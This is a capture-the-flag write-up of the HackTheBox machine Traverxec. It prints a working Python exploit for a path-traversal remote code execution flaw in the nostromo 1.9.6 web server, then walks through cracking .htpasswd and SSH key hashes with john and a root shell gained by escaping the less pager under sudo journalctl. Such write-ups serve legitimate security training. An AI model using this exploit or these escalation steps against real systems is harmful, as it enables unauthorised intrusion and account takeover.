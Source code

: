 ```yaml
---
title: HackTheBox Traverxec
published: true
---
```


# 0x0 Introduction
Yet another HTB box and again one of the easier ones. This time we had to exploit a vulnerable nostromo webserver version for command execution and then escalate privileges from there. 
![image](/assets/images/traverxec_htb_info.png "Traverxec Logo")

# 0x1 Getting a foothold

Starting of as usual with a nmap scan I got the following result: 

```
# Nmap 7.80 scan initiated Mon Feb 10 08:20:59 2020 as: nmap -sV -sC -oA nmap/nmap 10.10.10.165
Nmap scan report for 10.10.10.165
Host is up (0.0061s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 aa:99:a8:16:68:cd:41:cc:f9:6c:84:01:c7:59:09:5c (RSA)
|   256 93:dd:1a:23:ee:d7:1f:08:6b:58:47:09:73:a3:88:cc (ECDSA)
|_  256 9d:d6:62:1e:7a:fb:8f:56:92:e6:37:f1:10:db:9b:ce (ED25519)
80/tcp open  http    nostromo 1.9.6
|_http-server-header: nostromo 1.9.6
|_http-title: TRAVERXEC
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Feb 10 08:21:11 2020 -- 1 IP address (1 host up) scanned in 12.31 seconds
```

I had never heard of nostromo before but a quick google search told me that it's an open source webserver that is common on BSD and is also called nhttpd.  
When I searched for the version number I immediately found an RCE vulnerability and a python script to exploit it.  

```py
#!/usr/bin/env python

import socket
import argparse

parser = argparse.ArgumentParser(description='RCE in Nostromo web server through 1.9.6 due to path traversal.')
parser.add_argument('host',help='domain/IP of the Nostromo web server')
parser.add_argument('port',help='port number',type=int)
parser.add_argument('cmd',help='command to execute, default is id',default='id',nargs='?')
args = parser.parse_args()

def recv(s):
	r=''
	try:
		while True:
			t=s.recv(1024)
			if len(t)==0:
				break
			r+=t
	except:
		pass
	return r
def exploit(host,port,cmd):
	s=socket.socket()
	s.settimeout(1)
	s.connect((host,int(port)))
	payload="""POST /.%0d./.%0d./.%0d./.%0d./bin/sh HTTP/1.0\r\nContent-Length: 1\r\n\r\necho\necho\n{} 2>&1""".format(cmd)
	s.send(payload)
	r=recv(s)
	r=r[r.index('\r\n\r\n')+4:]
	print r

exploit(args.host,args.port,args.cmd)
```

The vulnerability here is a path traversal that allows us to reach /bin/sh
Which is also very simple to use 

```
mindslave@kalibox:~/hackthebox/Traverxec/nostromo$ python2 exp.py 10.10.10.165 80 "whoami"

www-data
```


# 0x2 getting the user.txt

As www-data I usually first want to look in our own directory because that's were we are most likely to have access. so thats /var/nostromo in this case.  
In there I found a conf directory and was able to extract a hash from the .htpasswd file inside.

```
mindslave@kalibox:~/hackthebox/Traverxec/nostromo$ python2 exp.py 10.10.10.165 80 "cat /var/nostromo/conf/.htpasswd"

david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/
```

Copied the credentials over to my maschine and asked my friend john if he could tell me something about them

```
mindslave@kalibox:~/hackthebox/Traverxec/nostromo/creds$ cat pwfile 
david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/
mindslave@kalibox:~/hackthebox/Traverxec/nostromo/creds$ john --wordlist=/usr/share/wordlists/rockyou.txt pwfile 
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Nowonly4me       (david)
1g 0:00:00:24 DONE (2020-02-10 09:50) 0.04027g/s 426034p/s 426034c/s 426034C/s NuiMeanPoon..Nous4=5
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Now we have password "Nowonly4me". First thing I tested with this password was ssh of course, but sadly david did not use that as his ssh password.  
Going further throught the nhttpd.conf I found the following:

```
# BASIC AUTHENTICATION [OPTIONAL]

htaccess                .htaccess
htpasswd                /var/nostromo/conf/.htpasswd
```

This stells us that we can use the password to authenticate at the Website, the question left to be answered is where on the Website.
looking at the Nostromo documentation I found that users get a path on the Webserver, here the relevant part of the docs:

```
HOMEDIRS
To serve the home directories of your users via HTTP, enable the homedirs option by defining the path in where the home directories are stored, normally /home. To access a users home directory enter a ~ in the URL followed by the home directory name like in this example:
http://www.nazgul.ch/~hacki/
The content of the home directory is handled exactly the same way as a directory in your document root. If some users don't want that their home directory can be accessed via HTTP, they shall remove the world readable flag on their home directory and a caller will receive a 403 Forbidden response. Also, if basic authentication is enabled, a user can create an .htaccess file in his home directory and a caller will need to authenticate.
You can restrict the access within the home directories to a single sub directory by defining it via the homedirs_public option.
```

so the /~david/ path did exists but didn't show us anything interesting, we need some kind of file name which we could find in /home/david/public_www/ the fiel we need is called protected-file-area (I knew the public_www existed because it said so in the nostromo config file)

The next step was to go to http://10.10.10.165/~/david/protected-file-area, there we could use the 'nowonly4me' password and we got his ssh-key which we could then again decrypt with john

```
$ python3 /usr/share/john/ssh2john.py id_rsa > johnfile
```

```
$ john --wordlist=/usr/share/wordlists/rockyou.txt johnfile 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 8 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
hunter           (id_rsa)
Warning: Only 2 candidates left, minimum 8 needed for performance.
1g 0:00:00:02 DONE (2020-02-10 10:50) 0.3597g/s 5158Kp/s 5158Kc/s 5158KC/sa6_123..*7¡Vamos!
Session completed
```

log in with ssh
```
$ ssh -i id_rsa david@10.10.10.165
Enter passphrase for key 'id_rsa': 
Linux traverxec 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u1 (2019-09-20) x86_64
Last login: Mon Feb 10 04:51:07 2020 from 10.10.14.2
david@traverxec:~$
```


# 0x3 getting the root.txt

In davids "bin" directoy I found an interesting script 

```bash
$ cat server-stats.sh 
#!/bin/bash

cat /home/david/bin/server-stats.head
echo "Load: `/usr/bin/uptime`"
echo " "
echo "Open nhttpd sockets: `/usr/bin/ss -H sport = 80 | /usr/bin/wc -l`"
echo "Files in the docroot: `/usr/bin/find /var/nostromo/htdocs/ | /usr/bin/wc -l`"
echo " "
echo "Last 5 journal log lines:"
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat 
```

Here I only care about the last line "/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat" which means we can execute this journalctl command as root and if we do that, without piping it into cat, we invoke the default pager, most likely "less", as root. And inside of less we can execute "!/bin/sh" that will run as root and thus give us a root shell. 

```
$ /usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service;
-- Logs begin at Tue 2020-02-11 01:12:26 EST, end at Tue 2020-02-11 02:02:57 EST. --
Feb 11 01:12:29 traverxec nhttpd[422]: started
Feb 11 01:12:29 traverxec nhttpd[422]: max. file descriptors = 1040 (cur) / 1040 (max)
Feb 11 01:12:29 traverxec systemd[1]: Started nostromo nhttpd server.
Feb 11 02:01:17 traverxec sudo[1626]: pam_unix(sudo:auth): authentication failure; logname= uid
Feb 11 02:01:53 traverxec sudo[1626]: www-data : command not allowed ; TTY=pts/1 ; PWD=/usr/bin
!/bin/sh
# whoami
root
```